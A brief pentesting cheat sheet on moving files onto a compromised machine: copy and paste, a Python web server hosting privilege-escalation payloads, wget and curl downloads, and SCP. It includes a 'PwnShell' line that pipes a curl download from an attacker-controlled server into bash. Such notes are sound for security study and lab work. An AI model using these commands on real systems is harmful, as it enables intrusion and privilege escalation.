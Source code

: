 # Transporting Files 📦

### Transport - Table of Contents 
   1. Copy & Paste 
   2. Python WebServer 
   3. SCP (through SSH)

--------------------------------------------------------------
--------------------------------------------------------------

# Copy & Paste
  + Could just try _Copy&Paste_

--------------------------------------------------------------
--------------------------------------------------------------

# Python WebServer

- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

1. Setup python webserver on local machine:
  + `python2 -m SimpleHTTPServer`
   - Run this **in the directory** where I have _interesting payloads_
    * Such as _PrivEsc scripts/binaries_
- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

2. On the _compromised machine_ / `shell`
  + Try _visiting the web page_ of my _python webserver_
   - `http://$PY_SERVER_IP`
  
  + [Linux]: Try using `curl` or `wget`
   - `wget $PY_SERVER_IP/directory_to/file`
   - `curl $PY_SERVER_IP/directory_to/file`
  
- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

* PwnShell (Linux): `curl` or `wget`
 - `wget $IP/directory_to/file`
 - `curl $IP/directory_to/file | bash`

- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

--------------------------------------------------------------
--------------------------------------------------------------

# SCP (through SSH)
 * If _ssh is available,_ try using `scp`

--------------------------------------------------------------
--------------------------------------------------------------
